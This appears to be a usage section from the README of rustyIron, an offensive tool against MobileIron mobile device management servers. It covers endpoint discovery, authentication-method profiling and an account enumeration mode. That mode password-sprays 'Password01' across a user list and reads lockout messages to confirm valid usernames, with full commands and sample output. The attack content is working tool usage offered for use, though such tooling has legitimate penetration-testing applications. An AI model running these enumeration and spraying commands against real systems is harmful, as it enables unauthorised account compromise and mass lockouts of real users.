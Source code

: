 The disco method will communicate with the MobileIron’s discovery API to locate and validate a domain’s authentication endpoint based on the supplied domain name.
```
$ rustyIron disco mitest.com
[+] auth.mitest.com: Successful Endpoint Discovery
[*] User Authentication Enabled
```
Additionally, upon identifying the authentication endpoint an initialization packet is sent to validate the authentication configuration of the MobileIron implementation. The following configurations are currently identified:

* Single Factor Authentication
* PIN Based Authentication
* PIN-Password Authentication
* Mutual Certificate Authentication

Furthermore, there is a return result if the authentication method is unknown, I am happy to increase validation for further observed methods.

*Note: Mutual Certificate Authentication is an overlay template across an existing authentication method and only affects the Mobile@Work agent.*

In the event MobileIron discovery services are disabled the prof method can be used to validate a potential MobileIron endpoint:
```
$ rustyIron prof auth.mitest.com
[*] prof threading 1 values across 10 threads
[*] User Authentication Enabled
```

The prof  method will identify what authentication method is configured for the endpoint.

## Account Enumeration

In the event an environment is configured with standard user authentication, the enumerate function can be leveraged to execute successive authentication attacks and validate validity.

```
$ rustyIron enum -p 'Password01' auth.mitest.com enum-user.lst
[*] enum threading 8 values across 10 threads
[-] mary.jane:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] jeff.yo:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] jane.smith:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.jones:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.jake:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] mary.smith:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.smith:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.doe:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] mary.jane:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] jeff.yo:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[*] jane.smith:Password01 - Account Lockout: User Locked: User has been locked out. Wait 30 seconds and try again.
[+] jane.smith:Password01 - Username Validation
[-] john.jones:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.jake:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[*] mary.smith:Password01 - Account Lockout: User Locked: User has been locked out. Wait 30 seconds and try again.
[+] mary.smith:Password01 - Username Validation
[-] john.doe:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.smith:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] mary.jane:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] jeff.yo:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.jones:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.jake:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.doe:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] john.smith:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
[-] jeff.yo:Password01 - Authentication Failure: Authentication Failed: Invalid Credentials.
```